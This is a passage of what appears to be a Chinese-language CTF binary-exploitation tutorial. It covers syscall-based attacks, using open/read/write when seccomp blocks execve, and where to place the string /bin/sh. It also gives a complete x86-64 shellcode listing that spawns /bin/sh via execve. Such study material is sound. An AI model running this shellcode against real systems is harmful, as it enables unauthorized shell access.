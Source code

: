一般而言，需要`syscall`的题目中，都是构造这个系统调用实现。

而在一些题目中通过`seccomp`禁用了`execve`的调用，所以不能直接利用，那么就利用open, read,  write 直接读取flag文件，也是一种办法。

而在syscall中，最为重要也是最麻烦的一步，就是在哪个地址写入/bin/sh（如果本地文件没有/bin/sh的话），一般而言，有三个选择，.data, .bss， 栈上。

在没开PIE的程序中，可以考虑通过write写入.data段或者买.bss段。

或者考虑通过rsp获取栈上地址，或者partial overwrite带出栈上地址。

总的而言，就是选择能够获取到地址的地方写入/bin/sh。



**例题:**

ciscn_s_3



### 0x2.ret2shellcode

#### 0x2.1.shellcode的书写

一般而言，可以直接通过pwntools 相应模块直接生成shellcode，然而现在以shellcode为考点的题目，一般都会对shellcode做出限制，诸如不能包含可打印字符等等。所以尽可能自己熟悉shellcode的书写。

一个简单的shellcode例子:

```c
// execve(path = '/bin///sh', argv = ['sh'], envp = 0)
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
// push argument array ['sh\x00']
// push b'sh\x00' 
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
// call execve()
push SYS_execve /* 0x3b */
pop rax
syscall
```

这里获取`/bin/sh`地址的方式，是将其压入栈中，再通过rsp偏移获取相应地址。

不过一般而言，pwn题目运行shellcode，一般是采用寄存器跳转，即`jmp  rax`此类，那么其实可以通过跳转寄存器获取shellcode存放地址，并且将/bin/sh直接镶入shellcode后面，简化shellcode书写。

同时，有些题目会对shellcode有所限制，限制只能包含可打印字符或者纯粹字母数字。这就限制了shellcode的书写，`mov`和`syscall`都会遭到限制， 可用指令如下:
